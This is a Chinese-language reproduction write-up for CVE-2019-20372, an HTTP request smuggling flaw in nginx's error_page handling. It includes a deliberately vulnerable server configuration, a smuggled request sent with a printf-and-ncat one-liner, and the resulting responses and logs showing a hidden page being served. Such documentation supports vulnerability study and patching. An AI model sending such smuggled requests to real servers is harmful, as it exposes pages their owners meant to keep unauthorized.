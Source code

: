 # CVE-2019-20372 Nginx error_page 请求走私漏洞

### 一、漏洞简介

Nginx 1.17.7之前版本中 error_page 存在安全漏洞。攻击者可利用该漏洞读取未授权的Web页面。

### 二、漏洞影响

Ngnix < 1.17.7

### 三、复现过程

错误配置


```bash
server {
 listen 80;
 server_name localhost;
 error_page 401 http://example.org;
 location / {
 return 401;
 }
}
server {
 listen 80;
 server_name notlocalhost;
 location /_hidden/index.html {
 return 200 'This should be hidden!';
 }
}
```

这时候我们可以向服务器发送以下请求


```bash
GET /a HTTP/1.1
Host: localhost
Content-Length: 56
GET /_hidden/index.html HTTP/1.1
Host: notlocalhost
```

我们看一下服务器是怎么处理的


```bash
printf "GET /a HTTP/1.1\r\nHost: localhost\r\nContent-Length: 56\r\n\r\nGET
/_hidden/index.html HTTP/1.1\r\nHost: notlocalhost\r\n\r\n" | ncat localhost 80 --noshutdown
```

等于说是吧两个请求都间接的执行了，我们看一下burp里面的返回值


```bash
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.17.6
Date: Fri, 06 Dec 2019 18:23:33 GMT
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: http://example.org
<html>
<head><title>302 Found</title></head>
<body>
<center><h1>302 Found</h1></center>
<hr><center>nginx/1.17.6</center>
</body>
</html>
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Fri, 06 Dec 2019 18:23:33 GMT
Content-Type: text/html
Content-Length: 22
Connection: keep-alive
This should be hidden!
```

再一下nginx服务器里面的日志


```bash
172.17.0.1 - - [06/Dec/2019:18:23:33 +0000] "GET /a HTTP/1.1" 302 145 "-" "-" "-"
172.17.0.1 - - [06/Dec/2019:18:23:33 +0000] "GET /_hidden/index.html HTTP/1.1" 200 22 "-"
```